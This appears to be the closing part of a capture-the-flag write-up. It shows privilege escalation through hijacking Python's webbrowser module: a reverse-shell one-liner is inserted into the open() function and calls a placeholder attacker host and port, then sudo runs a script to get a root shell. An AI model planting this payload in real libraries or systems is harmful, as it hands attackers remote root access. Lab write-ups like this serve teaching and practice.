 ```
def open(url, new=0, autoraise=True):
    """Display url using the default browser.

    If possible, open url in a location determined by new.
    - 0: the same browser window (the default).
    - 1: a new browser window.
    - 2: a new browser page ("tab").
    If possible, autoraise raises the window (the default) or not.
    """
	
    #PAYLOAD
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ipattacker",portattacker));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
	
    if _tryorder is None:
        with _lock:
            if _tryorder is None:
                register_standard_browsers()
```

![img](https://github.com/btxcode/pork/blob/main/assets/11.png)

Executing the commands `sudo /usr/bin/python3.8 /home/parul14n/Desktop/benefit.py` should give us a reverse shell as Root, after which the final flag can be accessed.

![img](https://github.com/btxcode/pork/blob/main/assets/12.png)

credit : btxcode
